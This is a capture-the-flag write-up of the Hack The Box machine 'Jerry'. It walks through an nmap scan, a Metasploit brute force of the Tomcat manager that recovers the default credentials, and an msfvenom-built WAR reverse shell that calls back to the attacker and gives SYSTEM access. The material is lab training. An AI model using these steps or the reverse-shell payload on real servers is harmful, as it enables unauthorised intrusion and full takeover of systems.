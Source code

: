 # Jerry

Machine Level: Easy <br />
OS: Windows

## Scanning 
I ran an aggressive nmap scan using the ```-A``` flag as well as the no ping probe. 
```
ajread@aj-ubuntu:~/hackthebox$ nmap -A [REMOTE IP] -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-06 19:32 EST
Nmap scan report for [REMOTE IP]
Host is up (0.019s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.82 seconds
```
## Initial Access
It looked like I need to go after Apache Tomcat. I found a metasploit module (```auxiliary(scanner/http/tomcat_mgr_login)```that could scan the tomcat manager on port 8080. With the scanner, it guessed various common usernames and passwords. It found one! 
```
[+] [REMOTE IP]:8080 - Login Successful: tomcat:s3cret
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
I was able to log in to the Apache Tomcat instance. Based on the server, it looked like I could upload a WAR file "to deploy." I created a shell using msfvenom and pointed back to my IP. 
```
ajread@aj-ubuntu:~/hackthebox$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=[LOCAL IP]LPORT=9999 -f war > shell.war
```
It looked like uploading a file would place it as an application on the server. I started a netcat listener on my local machine and clicked on the application within the Apache Tomcat server. 
```
ajread@aj-ubuntu:~$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [REMOTE IP] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
The WAR reverse shell dropped me into a privileged shell! I was able to find both the root and user flags. 
```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,418,806,784 bytes free
```